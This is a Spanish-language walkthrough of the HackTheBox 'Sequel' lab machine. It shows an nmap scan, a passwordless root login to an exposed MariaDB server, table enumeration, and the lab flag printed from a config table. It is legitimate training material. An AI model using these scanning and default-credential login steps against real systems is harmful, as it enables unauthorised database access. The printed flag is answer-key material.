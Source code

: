 ```yaml
---
title: Sequel HTB Walkthrough
published: true
---
```


# Sequel HTB

En este artículo trataré la resolución de una de las máquinas del Tier 1 del starting point de HackTheBox.

## Fase de reconocimiento

Una vez comprobado que la maquina está activa (`ping -c 1 <ip>`) y sabiendo en base al ttl que se trata de una máquina linux. Lanzamos nmap para buscar los puertos abiertos:

```
$nmap <ip> --open -p- -n --min-rate 5000
```

Obteniendo la siguiente salida:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-29 20:48 CET
Nmap scan report for 10.129.252.146
Host is up (0.077s latency).
Not shown: 64127 closed ports, 1407 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 22.28 seconds
```

Seguimos con nmap para detectar más información del servicio que corre en el puerto abierto:

```
nmap -p3306 -sCV <ip>
```

Obteniendo:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-29 20:59 CET

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 113
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, IgnoreSpaceBeforeParenthesis, FoundRows, InteractiveClient, Support41Auth, IgnoreSigpipes, LongColumnFlag, SupportsLoadDataLocal, SupportsCompression, SupportsTransactions, Speaks41ProtocolOld, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: ~ONx48\F*>;KIjZcdK-:
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.41 seconds
```

## Conectádonos a MySQL

Como hemos visto, se trata del servicio mysql, mediante el cuál podemos conectarnos a una base de datos. Para ello es necesario tener instaladas las herramientas:

```
sudo apt install mysql*
```

Podemos listar los posible parámetros con `mysql --help`. Para conectarnos a la máquina:

```
mysql -h <ip> -u root
```

Como utiliza las credenciales por defecto nos permite conectarnos directamentamente con el usuario `root`:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 118
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

## Navegando la BD.

Una vez dentro podemos listar las bases de datos:

```sql
MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.144 sec)
```

Seleccionamos para utilizar `htb`:

```sql
MariaDB [(none)]> USE htb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]>
```

Y listamos las tablas:

```sql
MariaDB [htb]> SHOW tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.045 sec)
```

Y por último listamos el contenido de la tabla `config`:

```sql
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.156 sec)
```

Y ya tendríamos la flag!